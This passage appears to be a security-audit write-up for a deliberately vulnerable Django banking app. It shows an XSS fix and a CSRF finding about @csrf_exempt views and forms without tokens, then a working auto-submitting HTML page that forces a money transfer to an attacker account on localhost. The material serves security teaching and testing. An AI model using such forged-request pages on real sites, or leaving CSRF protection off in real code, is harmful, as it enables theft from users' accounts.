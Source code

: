 Validate message in `views.py`:
```python
from django.utils.html import escape

@login_required
def dashboard(request):
    user = request.user
    account = Account.objects.get(user=user)
    message = escape(request.GET.get('message', ''))
    return render(request, 'dashboard.html', {
        'account': account,
        'message': message,
        'user': user
    })
```

**Explanation**: Escapes user input to prevent script execution, ensuring safe rendering.

### A05:2021 - Security Misconfiguration (CSRF)

**Location**: `views.py` (transfer, user_login, register, user_logout), `transfer.html`

**Issue**: Missing CSRF tokens in forms and `@csrf_exempt` on views allow Cross-Site Request Forgery attacks.

**Code**:
```python
@csrf_exempt
def transfer(request):
    ...
```

```html
<form method="POST" action="{% url 'transfer' %}">
    <!-- No CSRF token -->
```

#### Demonstration
1. Create a test account for the attacker:
   - Register a user: Username: `hacker`, Password: `password123`, Email: `hacker@example.com`.
   - Ensure the account number is `152982` (modify via Django admin if needed).

2. Host the following malicious HTML page (save as `csrf_attack.html` in the repository):
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Attack</title>
</head>
<body>
<form action="http://127.0.0.1:8000/transfer/" method="POST">
    <input type="hidden" name="to_account" value="152982">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="description" value="CSRF Attack">
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```
